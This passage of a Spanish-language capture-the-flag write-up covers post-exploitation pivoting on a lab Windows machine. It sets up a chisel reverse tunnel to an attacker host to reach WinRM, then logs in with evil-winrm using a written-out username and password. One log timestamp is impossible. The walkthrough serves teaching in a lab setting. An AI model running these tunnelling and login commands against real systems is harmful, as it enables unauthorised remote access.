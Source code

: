Ahora, le indicamos a nuestra máquina atacante que levante el puerto **5988** (que sera el que reciba el Port Fortwarding) y actue como servidor (listener) mediante **chisel**:

```bash
❭ ./chisel server -p 5988 --reverse
2021/04/26 05:50:07 server: Reverse tunnelling enabled
2021/04/26 05:50:07 server: Fingerprint hZ7G/q+Y+FZ0cm+H0AlBa9rOHdjlYpb59JtMBGs13eQ=
2021/04/26 05:50:07 server: Listening on http://0.0.0.0:5988
```

Tamo, ahora vamos al cliente e indicamos que tome el puerto **5985** y reenvie su trafico al puerto **5988** de la máquina **10.10.14.14** que simula realmente el puerto **5985** del localhost:

```powershell
c:\Users\Alfred\Videos>chisel.exe client 10.10.14.14:5988 R:5985:localhost:5985
chisel.exe client 10.10.14.14:5988 R:5985:localhost:5985
2021/04/28 00:42:05 client: Connecting to ws://10.10.14.14:5988
2021/04/28 00:42:07 client: Connected (Latency 200.7885ms)
```

Recibimos en el servidor:

```bash
...
2021/04/26 25:25:25 server: session#1: tun: proxy#R:5985=>localhost:5985: Listening
```

Validando el contenido del puerto **5988** vemos:

```bash
❭ lsof -i:5988
COMMAND     PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
chisel  1050047 root    6u  IPv6 4641412      0t0  TCP *:5988 (LISTEN)
chisel  1050047 root    7u  IPv6 4642498      0t0  TCP 10.10.14.14:5988->10.10.10.130:49772 (ESTABLISHED)
❭ lsof -i:5985
COMMAND     PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
chisel  1050047 root    8u  IPv6 4642501      0t0  TCP *:5985 (LISTEN)
```

Bien, ahora probemos conectarnos mediante **evil-winrm** con las credenciales que tenemos:

* Toma por defecto el puerto **5985**, y pues como hay un redireccionamiento actual hacia ese puerto de nuestra máquina, no debemos indicarselo ;)

```bash
❭ evil-winrm -i localhost -u 'Batman' -p 'Zx^#QZX+T!123'
```
